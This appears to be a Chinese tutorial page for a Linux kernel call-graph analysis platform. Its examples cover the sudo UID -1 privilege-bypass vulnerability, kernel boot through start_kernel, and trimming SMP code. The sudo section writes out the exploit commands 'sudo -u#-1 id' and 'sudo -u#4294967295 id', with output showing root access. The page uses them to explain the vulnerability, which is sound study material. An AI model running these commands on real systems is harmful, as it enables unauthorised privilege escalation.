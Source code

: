 # 例子

## sudo漏洞

### 漏洞内容

在特定配置环境下，非特权用户通过将sudo将自身uid设置为-1或4294967295时，可绕过配置的限制条件，以sudo用户权限执行。

详细内容如下：

> 首先添加一个系统帐号 test_sudo 作为实验所用
> 然后用 root 身份在 /etc/sudoers 中增加：
>
> test_sudo ALL=(ALL,!root) /usr/bin/id
>
> 表示允许 test_sudo 帐号以非 root 外的身份执行 /usr/bin/id，如果试图以 root 帐号运行 id 命令则会被拒绝：
>
> [test_sudo@localhost ~] $ sudo id
> 对不起，用户 test_sudo 无权以 root 的身份在 localhost.localdomain 上执行 /bin/id。
>
> sudo -u 也可以通过指定 UID 的方式来代替用户，当指定的 UID 为 -1 或 4294967295（-1 的补码，其实内部是按无符号整数处理的） 时，因此可以触发漏洞，绕过上面的限制并以 root 身份执行命令：
>
> [test_sudo@localhost ~]$ sudo -u#-1 id
> uid=0(root) gid=1004(test_sudo) 组=1004(test_sudo) 环境=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
> [test_sudo@localhost ~]$ sudo -u#4294967295 id
> uid=0(root) gid=1004(test_sudo) 组=1004(test_sudo) 环境=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
>
> <https://paper.seebug.org/1057/>

### 分析平台辅助

通过 strace 跟踪 命令执行时的系统调用:

```sh
[root@localhost ~]# strace -u test_sudo sudo -u#-1 id
```

输出的系统调用中,出现多个设置用户id系统调用,以setresuid为例:

```c
setresuid(-1, -1, -1)                   = 0
```

sudo 内部调用了 setresuid 来提升权限（虽然还调用了其他设置组之类的函数，但先不做分析），并且传入的参数都是 -1。

由动态跟踪的内容,确定要分析的函数为 setresuid():

在函数调用图中将setresuid()函数设置为源路径,查看其调用内容:

![调用图](https://raw.githubusercontent.com/sx807/img-url-personal/master/img_20200512171120.png)

能够明确看出,函数内调用kernel与security模块中函数,右键边查看函数调用列表:

![表1](https://raw.githubusercontent.com/sx807/img-url-personal/master/img_20200512171607.png)

![表2](https://raw.githubusercontent.com/sx807/img-url-personal/master/img_20200512171642.png)

通过节点右键菜单可以查看源码:

![右键](https://raw.githubusercontent.com/sx807/img-url-personal/master/img_20200512182406.png)

![源码](https://raw.githubusercontent.com/sx807/img-url-personal/master/img_20200512182512.png)

函数调用列表与源码中一致

通过调用图的筛选边和展开节点功能,能够快速帮助研究人员找到当前函数所关联模块

![展开+筛选](https://raw.githubusercontent.com/sx807/img-url-personal/master/img_20200512185521.png)

## Linux启动

> <https://blog.csdn.net/perfect1t/article/details/81741531>

通过链接脚本和汇编文件确定内核引导阶段后，会进入 start_kernel 函数，进行初始化。

确定函数所在文件为 /init/Main.c，打开分析平台，选择内核版本和平台，将源路径选为Main.c，目标路径选为/，能够查看调用图，使用调用图筛选和拖动等功能，可以实现更好的查看效果：

![内核启动](https://raw.githubusercontent.com/sx807/img-url-personal/master/img_20200513112809.png)

对于需要分析的模块，可以通过节点展开、查看函数调用表等方式获取详细信息。如，查看 start_kernel 种对 fs 模块的调用表：

![fs调用表](https://raw.githubusercontent.com/sx807/img-url-personal/master/img_20200513124421.png)

结合源码行号查看，可以辅助研究者分析模块间调用关系，快速确定源码中函数所在位置及模块间调用关系。

通过内核分析平台，研究人员可以快速查看函数调用关系，传统源码分析平台，对于调用的函数无法提供详细信息，遇到重名函数，查看过程是对索引进行筛选，罗列出该函数名的定义和调用，用户需要自行选择当前文件中对应的函数位置，进行查看。

函数调用图模块的链接源码功能，源数据为一对一的函数对应关系，数据中包含函数的文件和所在行等信息，用户可以在右键菜单中选择查看对应源码，平台会跳转到当前显示节点的源码位置，用户无须分辨重名函数，如启动函数 start_kernel 中，会使用 console_init() 对控制台进行初始化，而在源码中存在多个 console_init() 的函数定义，如图：

![console初始化函数](https://raw.githubusercontent.com/sx807/img-url-personal/master/img_20200518133441.png)

用户可以通过调用图查看模块间调用表，调用表中会显示被调用函数具体位置，点击被调用函数行号跳转源码。同时根据用户分析需要，切换调用图路径或展开节点，查看详细路径内函数调用关系图。

![调用表](https://raw.githubusercontent.com/sx807/img-url-personal/master/img_20200518134035.png)

查看 start_kernel 函数与 kernel/printk/printk.c 中函数的详细调用关系图：

![调用图](https://raw.githubusercontent.com/sx807/img-url-personal/master/img_20200518144350.png)

平台提供了，调用图到源码、调用图到调用列表、调用列表到源码的跳转关系，使用者从整体模块间调用开始，查看模块间调用函数，到查看调用行代码，逐步细化分析内容。

### 优化启动函数

linux系统良好的移植性和多平台兼容性，使其通过减少内核功能模块，能够运行在资源较少的嵌入式设备上。

裁剪内核可以通过内核的编译选项进行模块和功能的删减，通过对文件内函数的删减和替换能够进一步减小内核所占空间。

如对于大部分嵌入式设备，大多不需要多路cpu相关代码部分，内核中与smp相关函数是负责协调多cpu部分代码，使用分析平台，研究人员可以通过绘制smp函数作为被调用函数的调用图：

![smp作为目标路径](https://raw.githubusercontent.com/sx807/img-url-personal/master/img_20200518170150.png)

通过过滤调用图，可以看到，初始化模块会调用如下smp文件中函数：

![smp调用](https://raw.githubusercontent.com/sx807/img-url-personal/master/img_20200518170815.png)

结合函数调用表模块，可以查看初始化模块 main.c 中 kernel_init_freeable() 函数调用 SMP 初始化函数：

![调用表](https://raw.githubusercontent.com/sx807/img-url-personal/master/img_20200518171018.png)

确定了相关函数的调用位置，研究人员裁剪内核相应调用时，能够快捷定位函数位置，并通过调用图快速了解分析函数能否删除。
